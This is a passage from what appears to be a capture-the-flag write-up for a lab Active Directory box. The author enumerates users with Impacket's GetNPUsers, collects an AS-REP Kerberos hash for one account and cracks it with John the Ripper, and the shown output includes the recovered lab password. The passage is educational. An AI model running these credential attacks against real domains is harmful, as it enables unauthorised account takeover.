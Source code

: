And so on. You get the idea.

I run this with GetNPUsers:

{% highlight shell %}
──(root💀kali)-[/opt/thm/vulnroasted]
└─# GetNPUsers.py vulnnet-rst.local/ -usersfile dumblist -dc-ip 10.10.47.100 -format john -outputfile output.txt                      
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

# etc
[-] User A-WHITEHAT doesn't have UF_DONT_REQUIRE_PREAUTH set
# etc
{% endhighlight %}

And that reveals our username format. I prune the user list and run it again:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted]
└─# GetNPUsers.py vulnnet-rst.local/ -usersfile users -dc-ip 10.10.47.100 -format john -outputfile output.txt                                                                
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] User J-Goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User A-Whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User J-Leet doesn't have UF_DONT_REQUIRE_PREAUTH set
{% endhighlight %}

But didn't I have four users? Yes:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted]
└─# cat output.txt 
$krb5asrep$T-Skid@VULNNET-RST.LOCAL:c92827 # AND SO ON
{% endhighlight %}

We can crack that:

{% highlight shell %}
──(root💀kali)-[/opt/thm/vulnroasted]
└─# john output.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$T-Skid@VULNNET-RST.LOCAL)
1g 0:00:00:05 DONE (2021-05-16 05:50) 0.1953g/s 620800p/s 620800c/s 620800C/s tj3929..tj0216044
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

